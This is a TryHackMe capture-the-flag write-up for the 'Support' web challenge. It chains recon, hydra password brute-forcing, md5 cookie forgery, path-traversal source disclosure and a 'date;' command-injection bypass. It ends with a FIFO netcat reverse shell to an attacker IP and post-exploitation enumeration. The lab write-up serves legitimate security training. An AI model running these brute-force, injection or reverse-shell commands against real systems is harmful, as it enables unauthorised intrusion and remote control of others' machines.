# [Support — TryHackMe](https://tryhackme.com/room/support)

**Difficulty:** Medium

**Category:** Web exploitation, LFI/file disclosure, authentication, brute-force, RCE

## Overview

Support is a web exploitation challenge focused on chaining several vulnerabilities together to gain administrative access and eventually execute commands on the target machine.

---

## 1. Reconnaissance

### Port Scan

As always starting with the portscan using `nmap` with the following:

```bash
nmap -sV -sS -sC -p- -T5 -oN port_scan.txt <target>
```

*Full output in [port_scan.txt](./evidence/command_outputs/port_scan.txt).*

We got 2 services:

- Http running on port 80
- ssh running on port 22

### Directory Enumeration

Using `gobuster` with `common.txt` wordlist to brute-force hidden directory on the web:

```bash
gobuster -u <target> -w /path/to/common.txt -x js,php,html,txt,bak,xml -rt 100
```

*Full output in [initial_dir_enum.txt](./evidence/command_outputs/inital_dir_enum.txt)*

The most interesting ones are:

```
/api.php
/config.php
/footer.php
/dashboard.php
/index.php
/includes
/info.php
/skins
```

Both of `/skins`, and `/includes` provided directory listing for their contents but there was nothing especially interesting about them. `/js` has the javascript files of the bootstrap library. `/skins` had 4 files, `green.php`, `blue.php`, `red.php`, and `default.php`. `/includes` had 2 files, `skin.php`, and `header.php`.

```
/skins
├── red.php
├── green.php
├── blue.php
└── default.php

/includes
├── header.php
└── skin.php
```

I first accessed the `/skins` file and apparently they got executed and changed the color of the background. When I tried to access the `/includes` files there where no output, my reasoning was that the files are php code being executed on the server and the results get sent back to me.

Another thing that was suspicious and I confirmed it was the `/config.php` file. `gobuster` returned 0 as the size of this file. When I tried to access it, I got nothing. My reasoning is the same as the `/includes` files, that it's a php code that's being executed and I am being sent back the result of the execution. But since this is the configuration file, the chances of getting stored credentials is big as it's a common risk.

I visited `/info.php` but since it was my first intervention for this file, I thought it's just another useless php file. I honestly didn't read it thoroughly. Later, I knew that this file is a huge risk as it gives so much system information.

For `/api.php`, and `/dashboard.php` they both redirect for `/index.php` which was a login page.



I noticed that the application placeholder was actually a legit email, if you take a closer look under the Sign in button, you will notice a note saying `Problems signing in? Contact IT Operations @ help@support.thm`. Meaning we can use that as our first step to get access to the currently forbidden files.

## 2. Initial Access — Help Desk Account

Using the exposed email address, the least we can do is to try to brute-force the password. Using `hydra` with `rockyou.txt` password wordlist:

```bash
hydra -l help@support.thm -P path/to/rockyou.txt -o support_creds.txt <target> http-post-form "/index.php:email=^USER^&password=^PASS^:F=Invalid credentials"
```

*output can be viewed through [support_creds.txt](./evidence/command_outputs/support_creds.txt)*

We successfully got the password and now we authenticate as `help@support.thm`. While authenticating I had the Developer Tools of my browser open to notice any change of cookies. The `PHPSESSID` cookie changed, while also another cookie has been added `isITUser`.



However, I tried to access `/api.php` but I wasn't allowed. The browser rendered html with `Access Denied` body.

## 3. Cookie Manipulation

I suspected the cookies to be some kind of encoding, I tried multiple encoding types like (Base64, URL, hex, ASCII hex, etc). I got nothing, that's when I suspected it could be some kind of hashing, so I tried to use `hash_id` to identify the hash which was `md5`. I then used [hashes.com](https://hashes.com/en/decrypt/hash) to crack the hash.



Since the value was `false`, I got the `md5` hash of `true` and substituted its values to be the cookie's value. Which then gave me access to `/api.php`



The api documentation exposed `/user/id` endpoint that allowed to get user's information.



I found 3 accounts:

- `specialadmin@support.thm`
- `IT@support.thm`
- `help@support.thm`

All other accounts' responses were Null, while for those 3 the API response was a json with 3 fields:

- `email`
- `2FA`
- `admin`

Only the `specialadmin@support.thm` account had the `admin` field equal `true`.



At this point it's so obvious who is the target account, but how to get to it?

I tried brute-forcing the password using the `rockyou.txt` wordlist, but nothing was found. So I got back to explore some more.

The first idea was to send an HTTP request to `/user/1` with the `OPTIONS` method to see what methods are allowed. The response echoes the same message as the `GET` request. I wasn't sure what that meant, so I continued sending multiple requests using `PUT`, `PATCH`, and `POST`. But nothing happened, so I concluded that there's no hope in trying to change the data on the server.

The second idea was that since there's an `isITUser` cookie, then probably there's some `admin` cookie as well. So in the browser I tried variations of cookie names and set them once to the literal value `true` and another with its `md5` hash value.

```text
isadmin
isAdmin
Isadmin
IsAdmin
admin
Admin
is_admin
is_Admin
Is_admin
Is_Admin
```

Unfortunately, this wasn't successful.

## 4. Investigating the `skin` Parameter

While looking through the dashboard, I noticed the theme selector:

```text
?skin=default
?skin=red
?skin=green
?skin=blue
```

That caught my eye as the application was dynamically loading files based on the value of `skin`.

I tried path traversal, but it failed. I thought there was some filter so I changed the payload, but still didn't work. Here I remembered that maybe the file was appending something after my payload and that's why it didn't work. So with that in mind, I added a null hex at the end of the payload to indicate it's over `%00`. It failed, but interestingly it failed differently. So here, I was pretty sure that the server is enforcing some extension to the payload, also the reason it failed was because the php server was updated and the null hex only applies for older versions.

At this point, I started connecting the dots. The `skin` parameter takes only 4 values (red, green, blue, default), which are exactly the same as the files in the `/skins` directory. Also the browser didn't execute them as when inspecting the html code, the files were only included in the html body. So the `skin` parameter only shows the contents of the files, but it doesn't execute anything. For `?skin=blue` a `<style>` tag is being included in the html body and the browser is the one executing it.

The server apparently takes the value of the `skin` parameter and adds `.php` at the end, to include the file in the html. I used that to read the configuration file in the webroot and successfully got a password.

```text
?skin=../config
```



Upon using the password directly with the `specialadmin@support.thm` email, I failed. I wasn't able to authenticate as admin. I then thought it might be for `IT@support.thm`, but it didn't work. I thought it might be for another service so I got back to the SSH server and tried to authenticate with the password but the SSH server only allowed authentication using an ssh_key.

## 5. LFI / Source Code Disclosure

Now that we have a good level of understanding of how the `skin` parameter works, I started to pull the actual code of each of the known files:

- `dashboard.php`
- `logout.php`
- `footer.php`
- `index.php`

### `dashboard.php`

After requesting `?skin=../dashboard`, I found the code responsible for handling the parameter:

```php
$webRoot = realpath('/var/www/html/skins');
$another = realpath('/var/www/html');
$requested = realpath($webRoot . '/' . $skin . '.php');

if ($requested !== false && strpos($requested, $another) === 0) {
    readfile($requested);
}
```

*Full code in [dashboard_raw.txt](./evidence/command_outputs/dashboard_raw.txt)*

The code restricts the file reading to the `/var/www/html` directory, we can notice that from the second statement of the `if` condition `strpos($requested, $another) === 0`. This checks if the requested file starts with `/var/www/html`. If not, it won't execute the `readfile()` function. Also we are now 100% sure that the server is adding `.php` extension to the end of the payload, and we can't do anything about it.

Since the application uses `readfile()` to return the contents rather than including the file for PHP execution, this is more accurately arbitrary local file disclosure/path traversal rather than classic PHP LFI.

### `index.php`

The next file I investigated was `index.php`, I wanted to investigate how the authentication works internally (from the code).

Requesting `?skin=../index`, I didn't get much interesting info but looking at the following snippet of code:

```php
<?php
session_start();
include('/var/www/db.php');

$error = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $email = $_POST['email'] ?? '';
    $password = $_POST['password'] ?? '';

    foreach ($users as $id => $user) {
        if ($user['email'] === $email && $user['password'] === $password) {

            $_SESSION['loggedin'] = true;
            $_SESSION['user_id']  = $id;
            $_SESSION['admin']  = $user['admin'];

            setcookie(
                'isITUser',
                $user['admin'] ? md5("true") : md5("false"),
                time() + 3600,
                '/'
            );

            header('Location: dashboard.php');
            exit;
        }
    }

    $error = 'Invalid credentials';
}
?>
```

*Full code in [index_raw.txt](./evidence/command_outputs/index_raw.txt)*

Apparently there's a file called `db.php` which contains the application's user database as a PHP array. Also we can rule out that there are no admin cookies, only `isITUser` and `PHPSESSID`.

The provided credentials from the application get directly compared with the ones in `db.php`. So the most logical thing to do is try reading the file. Unfortunately, we can't as the file's path is `/var/www/db.php` and since it doesn't start with `/var/www/html` we can't read it using the `skin` parameter.

### `footer.php`

This file in particular gave me the most interesting information

```php
<?php
$isAdmin = $_SESSION['admin'];

$output = '';
$error  = '';

$selectedSys = 'date';

if ($isAdmin && $_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['sys'])) {

    $selectedSys = $_POST['sys'];
    $sys = $_POST['sys'];

    if (strpos($sys, 'date') === 0) {
        $output = shell_exec($sys); 
    } else {
        $error = 'Only date command is allowed.';
    }
}
?>
```

*Full code in [footer_raw.txt](./evidence/command_outputs/footer_raw.txt)*

This code exposes that we can achieve Remote Code Execution (RCE) with the `shell_exec()` function directly on the machine as the web-server user. But in order to exploit this we need to have admin privileges.

The implicit assumption of the code is that if the `sys` parameter starts with `date` it means it's a valid value and gets passed to the `shell_exec()` function, and that's the whole vulnerability. The attacker can pass `date; cat /etc/passwd` and since it starts with `date` then the statement `strpos($sys, 'date') === 0` is true, so the whole thing gets passed to the `shell_exec()` function and executed as the web-server user.

More explicitly:

```php
strpos($sys, 'date') === 0
```

does not mean:

```php
sys == "date"
```

It means:

```php
sys STARTS WITH "date"
```

Therefore:

```php
date; id
date; pwd
date; cat /etc/passwd
```

all satisfy the check. However, there's still a problem. WE NEED TO GET ADMIN PRIVILEGES.

### `logout.php`

This file didn't have much, only how the server gets rid of the session cookies.

```php
<?php
session_start();
session_destroy();
setcookie('isITUser', '', time() - 3600, '/');
header('Location: index.php');
```

*Full code in [logout_raw.txt](./evidence/command_outputs/logout_raw.txt)*

## 6. Looking for Another Way Around Authentication

At this point I knew:

- The administrator account existed.
- I knew its email address.
- The application had a straightforward password comparison.
- There was no obvious rate limiting.
- The `admin` value was stored server-side.
- The `$MASTER_PASSWORD` value wasn't actually used by the login code.

I started looking for other ways to reach the administrator state.

I tested HTTP methods against different directories and considered whether `/skins` or `/includes` could be abused to upload or create a PHP file that could later be loaded through the `skin` parameter.

For example, `/skins/` allowed `POST`, which initially looked promising.

However, sending a POST request didn't result in a file being written. There was no working upload functionality behind the method.

So that path was discarded.

I also looked at the `.htaccess` responses and considered whether the protected paths could be reached through some other authentication mechanism.

Again, nothing useful came from it.

The more source code I pulled, the clearer it became that I wasn't missing some obvious cookie trick. I actually needed to authenticate as the administrator.

That left the password.

## 7. Building a Custom Wordlist

I already had a lot of information about the application. Instead of blindly throwing a huge generic wordlist at the login page, I built a small custom list from the information I had collected.

I then used `hashcat` to generate variations and mutations from the custom list using the following command.

```bash
hashcat --stdout custom.txt -r /usr/share/hashcat/rules/best64.rule > custom_mangled.txt
```

*Note: I removed `custom.txt` as it had the password that `config.php` exposed. I left the `custom_mangled.txt` as a dictionary; it contains ~900 passwords, so it is not like I am giving the password away*

## 8. Administrative Access — Targeted Password Attack

Running `hydra` with the custom wordlist I made, and with the already known email.

```bash
hydra -l specialadmin@support.thm -P custom_mangled.txt -t 64 -o admin_creds.txt <target> http-post-form "/index.php:email=^USER^&password=^PASS^:F=Invalid credentials"
```

*Full output in [admin_creds.txt](./evidence/command_outputs/admin_creds.txt)*

After examining the password found with `hydra` by logging in as the admin, we successfully logged in and got the admin flag.



We can also notice another dropdown next to `Select Theme` which is `Date`. It has 2 values `date` and `time`. When selecting them, a new `div` appears with the current date and time respectively.

## 9. RCE

If we intercepted one of the requests we can find that it uses the HTTP method `POST` and in its body we can find the `sys` parameter. That's pretty familiar as we already know that from `footer.php` source code. We know how to exploit that, so I submitted a request with the body `sys= date; pwd` to test the exploit.



The response had `/var/www/html`, indicating successful RCE. From that we can retrieve the second flag by injecting `sys= date; cat /home/ubuntu/user.txt` to the body of the request.

## 10. Post-Exploitation

Before moving to a full shell, I used the RCE to do a bit more enumeration — including finally reading `db.php`, which had been out of reach earlier through the `skin` LFI due to the webroot restriction.



Having command execution was useful, but I wanted an actual shell on the target rather than having to send every command through the web application.
My first attempts at getting a reverse shell didn't work.
I tried several approaches, including common `nc`, Bash, Python, and `/dev/tcp` payloads.

The connection behavior was confusing at first. I could get a TCP connection to my listener, but I didn't actually have a usable shell attached to it.
For example, a listener would receive the connection, but commands typed into the connection wouldn't behave like a shell.
The problem was partly related to the way `shell_exec()` handles commands and the fact that an interactive shell doesn't naturally fit inside a synchronous HTTP request.

I eventually switched to a FIFO-based reverse shell and used `script` to allocate a pseudo-terminal:

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | script -q /dev/null -c /bin/bash 2>&1 | nc <attacker-ip> 4444 >/tmp/f
```

I started a listener:

```bash
nc -nvlp 4444
```

and finally received a proper shell:



Since I now had a shell, I started looking at the local machine to see whether there was an obvious privilege escalation path.

### SUID binaries

I checked for SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
```

There were several standard SUID binaries, including:

```text
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
```

There were also a number of binaries under `/snap`.

Nothing in the results immediately stood out as an obvious privilege escalation path.

### Linux capabilities

I also checked file capabilities:

```bash
getcap -r / 2>/dev/null
```

The results included normal capabilities such as:

```text
/usr/bin/ping cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep
```

and a GStreamer helper with network-related capabilities.

Again, nothing immediately provided an obvious escalation route.

### Sudo

I checked:

```bash
sudo -l
```

but `sudo` required a password.

The passwords I had already recovered did not work, so I didn't continue guessing.

### Listening services

I also checked the locally listening services:

```bash
ss -lntup
```

The interesting network services were essentially:

```text
22/tcp
80/tcp
```

There wasn't an obvious internal database service listening on another port.

I also checked Unix sockets and found things such as the LXD socket:

```text
/var/snap/lxd/common/lxd/unix.socket
```

but the `www-data` user was not a member of the `lxd` group, so this wasn't immediately useful either.

At this point I had already completed the intended attack chain and obtained the required flags, so I stopped the post-exploitation enumeration rather than forcing an escalation path that wasn't necessary for the challenge.

## 11. Nikto

One thing I overlooked during the initial enumeration was running Nikto. This was an oversight on my part during the initial enumeration phase. I ran it after completing the main attack chain, so I treated the scan as supplementary rather than part of the original attack path.

I eventually ran it after completing the main attack chain:

```bash
nikto -h http://<target>
```

*Full output in [web_scan.txt](./evidence/command_outputs/web_scan.txt)*

It returned several findings, but nothing that I hadn't already found.

## Attack Chain

```text
Enumeration
    ↓
Cookie manipulation
    ↓
API enumeration
    ↓
LFI/file disclosure
    ↓
Source disclosure
    ↓
Credential discovery
    ↓
Custom wordlist
    ↓
Admin brute-force
    ↓
RCE
    ↓
Reverse shell
```

## Takeaways

This challenge was interesting because I had most of the application's attack surface figured out relatively early, but that didn't immediately translate into access.

